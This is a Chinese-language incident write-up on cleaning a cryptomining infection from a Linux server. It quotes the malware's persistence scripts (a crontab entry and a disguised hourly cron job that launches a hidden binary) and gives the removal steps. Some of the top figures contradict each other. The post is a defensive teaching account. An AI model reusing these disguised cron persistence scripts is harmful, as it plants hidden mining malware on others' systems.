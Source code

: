 # 记一次服务器被当成矿机挖矿，CPU一直99%不下

## 问题排查与解决过程

### top 查询CPU占用过高的程序
```shell
Tasks: 254 total,   1 running, 253 sleeping,   0 stopped,   0 zombie
%Cpu(s):  99.2 us,  0.5 sy,  0.0 ni, 91.0 id,  0.3 wa,  0.0 hi,  0.0 si,  0.0 st
KiB Mem : 16266124 total,   196652 free, 15210732 used,   858740 buff/cache
KiB Swap:        0 total,        0 free,        0 used.   439680 avail Mem 

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND                                                                              
17194 root  20   0 7391168   1.3g  34748 S  59.5  558.2   8083:37 -bash                                                                         
26099 root      20   0 3558676  80924   4120 S   1.7  0.5 113:04.64 cmagent                                                                              
30400 clouder+  20   0 8143696   1.6g  13308 S   1.0 10.3  67:36.12 java   
```

发现`-bash`占用550%的CPU，导致CPU总占用为99%

`kill -9 pid`后发现，过一会，`-bash`又启动了

### 查询定时任务

```shell
crontab -e 
****** /mnt/.systemd/-bash > /dev/null 2>&1
```

发现在用户的定时任务crontab中 `/mnt/.systemd/-bash` 每分钟定时跑一次，`-bash`内容如下：

```shell
#!/bin/bash
cd -- /mnt/.systemd
mkdir -- .-bash
cp -f -- x86_64 .-bash/-bash
./.-bash/-bash -c
rm -rf -- .-bash
```

发现真实的挖矿程序为`x86_64`，最终删除`-bash`脚本和`x86_64`程序

但是，过几分钟后，发现挖矿程序又启动了 ，想着是不是有小时的定时脚本在跑，发现重启的时间正好是整点后的

### 查询定时任务执行日志

查询定时任务执行日志，分析是否还有其他定时任务在跑

```shell
vim /var/log/cron

# 分钟的，正好对应 crontab -e 中的定时脚本
May 30 23:59:01 hadoop2 CROND[29320]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)
May 31 00:00:01 hadoop2 CROND[29427]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)
May 31 00:01:01 hadoop2 CROND[29529]: (root) CMD (/mnt/.systemd/-bash > /dev/null 2>&1;)

# 小时整点的
May 31 00:01:02 hadoop2 run-parts(/etc/cron.hourly)[29530]: starting sync
May 31 00:01:02 hadoop2 run-parts(/etc/cron.hourly)[29601]: finished sync

```

通过查询定时任务执行日志发现，还存在小时的定时任务`sync`在执行，去到`/etc/cron.hourly`小时任务目录下查看，发现一个脚本为`sync`，脚本内容为：

```shell
#!/bin/bash
#
# Start/Stop the pwnrig clock daemon
#
# chkconfig 2345 90 60
# description: sync clock (GNU System)
cp -f -r -- /bin/sysdrr /usr/bin/-bash 2>/dev/null
cd /usr/bin/ 2>/dev/null
./-bash -c >/dev/null
rm -rf -- -bash 2>/dev/null
```

分析脚本内容为：复制`/bin/sysdrr`文件到`/usr/bin/`下，改名为`-bash`，启动服务，并删除`-bash`。从这可以看出`/bin/sysdrr`基本就是此次被入侵的源头

在` /bin/` 下找到 `sysdrr` 挖矿源病毒程序，并删除！同时也可以使用` find / -name sysdrr`全盘查找源病毒程序，并删除！

在` /etc/cron.monthly/` ,  `/etc/cron.weekly/` , ` /etc/cron.daily/` ,  `/etc/cron.hourly/` 这些定时目录里找到`sync`程序并删除！

但是在删除`/bin/sysdrr`文件和`sync`脚本时发现，使用`rm -f`命令删除：

```shell
rm -f sysdrr 
rm: 无法删除"sysdrr": 不允许的操作

# 使用 lsattr 查看
lsattr /bin/sysdrr 
----i--------e-- /bin/sys

# 解除限制
chattr -R -i /bin/sysdrr
lsattr /bin/sysdrr 
-------------e-- /bin/sysdrr

# 删除成功
rm -f sysdrr

```

同步骤删除`/etc/cron.monthly/ `，`/etc/cron.weekly/ `，`/etc/cron.daily/`，`/etc/cron.hourly/`下的`sync`脚本

至此，问题挖矿定时任务和程序文件全部清除，服务器的CPU使用情况恢复正常

## 总结
服务器的账号的登录密码不能可以设置的太简单，mysql、redis等服务的端口号尽量不使用默认端口号，相关的账号和密码不能设置过于简单

